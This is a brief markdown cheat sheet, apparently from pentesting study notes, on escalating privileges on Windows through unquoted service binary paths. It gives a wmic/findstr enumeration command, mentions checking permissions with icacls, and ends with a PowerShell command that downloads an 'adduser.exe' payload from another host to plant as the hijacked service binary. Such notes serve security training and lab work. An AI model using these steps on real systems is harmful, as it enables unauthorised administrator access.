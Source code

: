 #priviledgeEscalation #windows 

🔴 Sometimes you can **mv** the binary if **rm** doesn't work
#### How it works

Unquoted service binary path "C:\\Program Files\\My Program\\My Service\\service.exe"

This will be processed in CreateProcess function as below,

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

### Check for Services

Execute in CMD
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

2. Use **icacls** to check
3. then place the user add binary

```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
```
